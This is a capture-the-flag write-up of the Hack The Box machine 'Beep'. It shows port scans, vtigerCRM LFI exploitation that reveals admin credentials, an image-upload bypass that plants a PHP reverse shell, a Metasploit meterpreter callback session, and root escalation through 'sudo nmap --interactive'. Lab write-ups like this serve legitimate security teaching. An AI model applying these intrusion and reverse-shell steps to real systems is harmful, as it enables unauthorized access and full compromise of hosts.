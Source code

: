```yaml
---
layout: post
title: Beep(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.7

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.7</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-03-03 04:36 EST
<br>Nmap scan report for 10.10.10.7
<br>Host is up (0.16s latency).
<br>Not shown: 988 closed ports
<br>PORT      STATE SERVICE    VERSION
<br><font color="BB69EC">22/tcp</font>    open  <font color="53E100">ssh</font>         OpenSSH 4.3 (protocol 2.0)
<br>| ssh-hostkey: 
<br>|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
<br>|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
<br><font color="BB69EC">25/tcp</font>    open  <font color="53E100">smtp</font>        Postfix smtpd
<br>|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
<br><font color="BB69EC">80/tcp</font>    open  <font color="53E100">http</font>        Apache httpd 2.2.3
<br>|_http-server-header: Apache/2.2.3 (CentOS)
<br>|_http-title: Did not follow redirect to https://10.10.10.7/
<br><font color="BB69EC">110/tcp</font>   open  <font color="53E100">pop3</font>        Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
<br><font color="BB69EC">111/tcp</font>   open  <font color="53E100">rpcbind</font>     2 (RPC #100000)
<br>| rpcinfo: 
<br>|   program version   port/proto  service
<br>|   100000  2            111/tcp  rpcbind
<br>|   100000  2            111/udp  rpcbind
<br>|   100024  1            742/udp  status
<br>|_  100024  1            745/tcp  status
<br><font color="BB69EC">143/tcp</font>   open  <font color="53E100">imap</font>       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
<br>|_imap-capabilities: Completed OK ATOMIC URLAUTHA0001 RIGHTS=kxte IMAP4rev1 THREAD=ORDEREDSUBJECT LITERAL+ ANNOTATEMORE LIST-SUBSCRIBED CONDSTORE UIDPLUS CATENATE BINARY MAILBOX-REFERRALS LISTEXT IDLE RENAME ID IMAP4 QUOTA X-NETSCAPE THREAD=REFERENCES SORT=MODSEQ SORT CHILDREN NAMESPACE MULTIAPPEND STARTTLS NO ACL UNSELECT
<br><font color="BB69EC">443/tcp</font>   open  <font color="53E100">ssl/http</font>   Apache httpd 2.2.3 ((CentOS))
<br>| http-robots.txt: 1 disallowed entry 
<br>|_/
<br>|_http-server-header: Apache/2.2.3 (CentOS)
<br>|_http-title: Elastix - Login page
<br>| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
<br>| Not valid before: 2017-04-07T08:22:08
<br>|_Not valid after:  2018-04-07T08:22:08
<br>|_ssl-date: 2018-03-03T09:21:37+00:00; -19m56s from scanner time.
<br><font color="BB69EC">993/tcp</font>   open  <font color="53E100">ssl/imap</font>   Cyrus imapd
<br>|_imap-capabilities: CAPABILITY
<br><font color="BB69EC">995/tcp</font>   open  <font color="53E100">pop3</font>Cyrus pop3d
<br><font color="BB69EC">3306/tcp</font>  open  <font color="53E100">mysql</font>      MySQL (unauthorized)
<br><font color="BB69EC">4445/tcp</font>  open  <font color="53E100">upnotifyp?</font>
<br><font color="BB69EC">10000/tcp</font> open  <font color="53E100">http</font>       MiniServ 1.570 (Webmin httpd)
<br>|_http-server-header: MiniServ/1.570
<br>|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
<br>OS:SCAN(V=7.50%E=4%D=3/3%OT=22%CT=1%CU=41868%PV=Y%DS=2%DC=T%G=Y%TM=5A9A6E1C
<br>OS:%P=i686-pc-linux-gnu)SEQ(SP=CB%GCD=2%ISR=CD%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=C
<br>OS:B%GCD=1%ISR=CC%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DN
<br>OS:NT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3
<br>OS:=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N
<br>OS:%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A
<br>OS:0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O
<br>OS:=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40
<br>OS:%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
<br>OS:=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y
<br>OS:%DFI=N%T=40%CD=S) </p>

<p>Network Distance: 2 hops
<br>Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com</p>

<p>Host script results:
<br>|_clock-skew: mean: -19m56s, deviation: 0s, median: -19m56s</p>

<p>TRACEROUTE (using port 199/tcp)
<br>HOP RTT       ADDRESS
<br>1   167.17 ms 10.10.14.1
<br>2   167.42 ms 10.10.10.7</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 390.20 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>

</div>
</font>

<br>**Web**:-
<br>On port 80 Elastix Service is running
![1](https://teckk2.github.io/assets/images/Beep/1.JPG)

<br>**Gobuster**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># gobuster -e -u https://10.10.10.7/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt </p>

<p>Gobuster v1.2                OJ Reeves (@TheColonial)
<br>=====================================================
<br>[+] Mode         : dir
<br>[+] Url/Domain   : https://10.10.10.7/
<br>[+] Threads      : 500
<br>[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
<br>[+] Status codes : 200,204,301,302,307
<br>[+] Expanded     : true
<br>=====================================================
<br>https://10.10.10.7/help (Status: 301)
<br>https://10.10.10.7/modules (Status: 301)
<br>https://10.10.10.7/themes (Status: 301)
<br>https://10.10.10.7/lang (Status: 301)
<br>https://10.10.10.7/static (Status: 301)
<br>https://10.10.10.7/admin (Status: 301)
<br>https://10.10.10.7/images (Status: 301)
<br>https://10.10.10.7/var (Status: 301)
<br>https://10.10.10.7/mail (Status: 301)
<br>https://10.10.10.7/panel (Status: 301)
<br>https://10.10.10.7/libs (Status: 301)
<br>https://10.10.10.7/recordings (Status: 301)
<br>https://10.10.10.7/configs (Status: 301)
<br><font color="ffff00">https://10.10.10.7/vtigercrm</font> (Status: 301)
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>

</div>
</font>
.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># gobuster -e -u https://10.10.10.7/vtigercrm/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt </p>

<p>Gobuster v1.2                OJ Reeves (@TheColonial)
<br>=====================================================
<br>[+] Mode         : dir
<br>[+] Url/Domain   : https://10.10.10.7/vtigercrm/
<br>[+] Threads      : 500
<br>[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
<br>[+] Status codes : 200,204,301,302,307
<br>[+] Expanded     : true
<br>=====================================================
<br>https://10.10.10.7/vtigercrm/test (Status: 301)
<br>https://10.10.10.7/vtigercrm/storage (Status: 301)
<br>https://10.10.10.7/vtigercrm/themes (Status: 301)
<br>https://10.10.10.7/vtigercrm/license (Status: 301)
<br>https://10.10.10.7/vtigercrm/modules (Status: 301)
<br>https://10.10.10.7/vtigercrm/database (Status: 301)
<br>https://10.10.10.7/vtigercrm/cache (Status: 301)
<br>https://10.10.10.7/vtigercrm/include (Status: 301)
<br>https://10.10.10.7/vtigercrm/packages (Status: 301)
<br>https://10.10.10.7/vtigercrm/Image (Status: 301)
<br>https://10.10.10.7/vtigercrm/backup (Status: 301)
<br>https://10.10.10.7/vtigercrm/data (Status: 301)
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>

</div>
</font>

<br>There is an interesting directory /vtigercrm for which we can look for
![2](https://teckk2.github.io/assets/images/Beep/2.JPG)
<br>After searching I found LFI exploits for [vtigerCRM](https://www.exploit-db.com/exploits/18770/), and [Vtiger login](https://www.exploit-db.com/exploits/37637/) which we can use to read user flag and get admin credentials.

**User Flag** :-
![3](https://teckk2.github.io/assets/images/Beep/3.JPG)
<br>The username is **fanis**
![4](https://teckk2.github.io/assets/images/Beep/4.JPG)
<br>Now using the second LFI exploit we can read the Admin credentials
![5](https://teckk2.github.io/assets/images/Beep/5.JPG)
<br>Now read lines one by one untill you find the correct password
![6](https://teckk2.github.io/assets/images/Beep/6.JPG)
<br>Username = **admin**
<br>Password = **jEhdIekWmdjE**
<br>Using this credential we can login to VtigerCRM dashboard as Admin
![7.1](https://teckk2.github.io/assets/images/Beep/7.1.JPG)

<br>**Shell**
<br>GO to Settings>Company Details> click on Edit and you will notice we can upload any image in place of company logo
<br> We have to rename our PHP payload and add **;.jpg** after **.php** to bypass browser image file upload restriction

<br>**First Method - (NC)**
<br>First download the PHP reverse shell [payload](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) and edit the IP and PORT accordingly. then browse the file and click on save and capture the POST request on burp
![13](https://teckk2.github.io/assets/images/Beep/13.JPG)
![14](https://teckk2.github.io/assets/images/Beep/14.JPG)
<br>remove ;.jpg from the file and forward the request
![15](https://teckk2.github.io/assets/images/Beep/15.JPG)
![16](https://teckk2.github.io/assets/images/Beep/16.JPG)
<br>Make sure the file has been uploaded successfully
![17](https://teckk2.github.io/assets/images/Beep/17.JPG)
<br>Now browse to the file location and get the shell
![18](https://teckk2.github.io/assets/images/Beep/18.JPG)

**Second Method - (Meterpreter)**
![9](https://teckk2.github.io/assets/images/Beep/9.JPG)
<br>So Now again browse the file and select it after that click on save and capture the post request on burp
![10](https://teckk2.github.io/assets/images/Beep/10.JPG)
<br>Now edit it and remove the ;.jpg and forward the request
![11](https://teckk2.github.io/assets/images/Beep/11.JPG)
<br>make sure the file has been uploaded successfully
![12](https://teckk2.github.io/assets/images/Beep/12.JPG)
<br>Now set up the listner and go to the file location [https://10.10.10.7/vtigercrm/test/logo/beep.php](https://10.10.10.7/vtigercrm/test/logo/beep.php) and we will get the meterpreter shell.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf > use exploit/multi/handler 
<br>msf exploit(<font color="red">handler</font>) > set payload php/meterpreter/reverse_tcp
<br>payload => php/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">handler</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.14.10
<br>msf exploit(<font color="red">handler</font>) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">handler</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Starting the payload handler...
<br><font color="RoyalBlue">[*]</font> Sending stage (33986 bytes) to 10.10.10.7
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:4455 -> 10.10.10.7:39251) at 2018-03-03 08:33:58 -0500</p>

<p>meterpreter > getuid
<br>Server username: asterisk (100)
<br>meterpreter > sysinfo 
<br>Computer&nbsp;&nbsp;&nbsp;&nbsp;: beep
<br>OS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: Linux beep 2.6.18-238.12.1.el5 #1 SMP Tue May 31 13:23:01 EDT 2011 i686
<br>Meterpreter&nbsp;: php/linux
<br>meterpreter > </p>

</div>
</font>

**Privilege Escalation**

<br>User asterisk have root access to nmap, and the nmap version is 4.11 which can give us root shell using nmap interactive mode.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>meterpreter > shell
<br>Process 6593 created.
<br>Channel 0 created.
<br>id
<br>uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
<br>python -c 'import pty;pty.spawn("/bin/bash")'
<br>bash-3.2$ sudo -l
<br>sudo -l
<br>Matching Defaults entries for asterisk on this host:
<br>&nbsp;&nbsp;&nbsp;&nbsp;env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
<br>&nbsp;&nbsp;&nbsp;&nbsp;LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
<br>&nbsp;&nbsp;&nbsp;&nbsp;LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
<br>&nbsp;&nbsp;&nbsp;&nbsp;LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
<br>&nbsp;&nbsp;&nbsp;&nbsp;XAUTHORITY"</p>

<p>User asterisk may run the following commands on this host:
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /sbin/shutdown
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/bin/nmap
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/bin/yum
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /bin/touch
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /bin/chmod
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /bin/chown
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /sbin/service
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /sbin/init
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/sbin/postmap
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/sbin/postfix
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/sbin/saslpasswd2
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/sbin/hardware_detector
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /sbin/chkconfig
<br>&nbsp;&nbsp;&nbsp;&nbsp;(root) NOPASSWD: /usr/sbin/elastix-helper
<br>bash-3.2$ cd /usr/bin/    
<br>cd /usr/bin/
<br>bash-3.2$ nmap -version
<br>nmap -version </p>

<p>Nmap version 4.11 ( http://www.insecure.org/nmap/ )
<br>bash-3.2$ sudo nmap --interactive
<br>sudo nmap --interactive </p>

<p>Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
<br>Welcome to Interactive Mode -- press h enter for help
<br>nmap> !sh
<br>!sh
<br>sh-3.2# id
<br>id
<br>uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
<br>sh-3.2# cd /root
<br>cd /root
<br>sh-3.2# cat root.txt
<br>cat root.txt
<br><font color="53E100">********************************</font>
<br>sh-3.2# </p>

</div>
</font>


<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>

